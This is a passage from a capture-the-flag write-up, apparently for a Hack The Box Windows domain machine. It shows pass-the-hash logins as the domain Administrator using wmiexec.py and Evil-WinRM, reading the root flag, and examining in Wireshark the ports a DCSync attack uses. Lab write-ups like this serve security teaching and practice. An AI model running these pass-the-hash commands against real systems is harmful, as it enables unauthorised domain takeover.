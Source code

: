 With the hashes for Administrator, I can connect with a tool like `wmiexec`:

```

root@kali# wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb.local/administrator@10.10.10.161
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
htb\administrator

```

I could also continue with Evil-WinRM:

```

root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

Info: Starting Evil-WinRM shell v1.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator

```

Either way, from there, I can grab `root.txt`:

```

C:\users\administrator\desktop>type root.txt
f048153f************************

```

## Beyond Root

### DCSync Ports

I got curious about what ports were involved in a DCSync attack. So, with Wireshark open, I ran my oneliner to give my user DCSync access. Then I started a capture on tun0, and ran `secretsdump.py`. Once all the hashes were done, I stopped the capture.

Under Statistics, there’s an option to see Conversations, which loads this:

![1571513636862](https://0xdfimages.gitlab.io/img/1571513636862.png)

I can see that my host initiated four connections, all TCP (otherwise UDP would have a number after it). Two were on 445, one on 135, and one to 49667. All of these ports were open in the `nmap`.
